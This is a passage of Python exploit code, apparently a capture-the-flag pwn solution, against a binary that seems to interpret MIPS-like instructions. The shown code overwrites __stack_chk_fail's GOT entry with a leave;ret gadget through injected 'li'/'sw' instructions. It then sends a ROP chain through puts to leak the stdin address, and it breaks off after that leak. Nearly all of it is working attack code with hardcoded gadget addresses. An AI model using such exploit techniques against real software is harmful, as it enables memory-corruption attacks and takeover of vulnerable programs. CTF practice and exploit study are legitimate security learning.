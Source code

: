     	vul_func = 0x08048680
    	stdin_addr = 0x0804D080
    	leave_ret = 0x0804AC56
    	register_val = 0x0804DA24
    	pop_ret = 0x08048545
    	ppp_ret = 0x0804b339
    	mapp0 = 0x4000000
    	# step 1: overwrite __stack_chk_fail's got to the address of ret
    	
    	# Method 1: use add/sub
    	# change_2_text()
    	# offset = ((stack_chk_fail_got - register_val) & 0xffffffff )/8-0x20
    	# print hex(offset) 
    	# code = 'add '+str(offset)+','+str(leave_ret)+','+str(0)
    	# input_code(code)
    	# sl('END')
    	
    	# Method 2: use lw/sw
    	change_2_text()
    	code = 'li $t0,' + str(leave_ret)
    	input_code(code)
    	offset = (stack_chk_fail_got - mapp0 - 4)/8 + 0xE0000000
    	print hex(offset)
    	code = 'li $t1,' + str(offset)
    	input_code(code)
    	code = 'sw $t0,$t1'
    	input_code(code)
    	sl('END')
    
    	# step 2: 
    	# Method 1: use dl_resolve
    	
    	# step 2.1: leak the value of stdin
    	offset = 0x30
    	payload = pwn_rop.retfill(offset)
    	payload += p32(puts_plt) + p32(pop_ret) + p32(stdin_addr)
    	payload += p32(vul_func)
    	sla('comment: ',payload)
    	stdin_addr = u32(rv(4))
    	lg('stdin_addr',stdin_addr)
    